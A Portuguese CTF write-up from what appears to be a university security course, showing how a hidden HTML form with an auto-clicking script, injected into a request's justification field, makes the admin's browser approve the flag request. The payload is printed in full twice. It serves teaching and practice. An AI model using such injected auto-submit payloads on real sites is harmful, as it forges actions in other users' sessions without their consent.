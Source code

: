 Ao entrar no site e colocando algo no campo de texto com a justificação para obter a flag, conseguimos a seguir chegar à página do admin, ao carregar em "page". 

![ctf6image1](images/ctf6image1.png)

 
Onde é possível ver que a página do admin muda para a porta 5005 em vez da 5004 e, inspecionando a página, verificamos que o form do request tem a seguinte estrutura:

![ctf6image2](images/ctf6image2.png)

```html
 <form method="POST" action="/request/877361c8b921df188014a0e8790347ffe5cbeb78/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form> 
```


Onde "877361c8b921df188014a0e8790347ffe5cbeb78" é o request id que nos é dado na página inicial. Logo, podemos adaptar um novo form com o objetivo de aceitar o pedido. 

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Portanto, voltando à página inicial e colocando este novo form na 'justificação', mas com o request id que nos é dado nessa página, temos algo deste género:

![ctf6image3](images/ctf6image3.png)

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d017767734bfe2c6e391e8d5606caecafebd4c85/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```
e com isso damos o 'Submit'.

(Depois dei reload outra vez e o id para buscar a flag atualizou para d017767734bfe2c6e391e8d5606caecafebd4c85 mas os prints foram tirados com o anterior)

Somos passados para o url da ação do form, no entanto vai nos ser avisado que não temos permissões para tal.

![ctf6image4](images/ctf6image4.png)

Para combater isso, vamos impedir o redirecionamento do nosso lado, mas vamos manter o redirecionamento do lado do admin. (desativando o JavaScript do nosso lado)
Google Chrome -> Definições -> Privacidade e Segurança -> Definições de Sites -> JavaScript -> (Sem autorização para usar JavaScript) Adicionar ->

![ctf6image5](images/ctf6image5.png)

Vamos então fazer isto de novo, agora sem o redirecionamento da nossa parte.
 
Aqui já verificamos que o redirecionamento já não foi realizado para a página do admin, mas sim para a certa. Contudo o request não foi validado.

![ctf6image6](images/ctf6image6.png)

Como desativamos o JavaScript, a página já não dá os constantes reloads que estava a dar, logo faremos isso manualmente:

![ctf6image7](images/ctf6image7.png)

E dessa forma conseguimos a Flag!



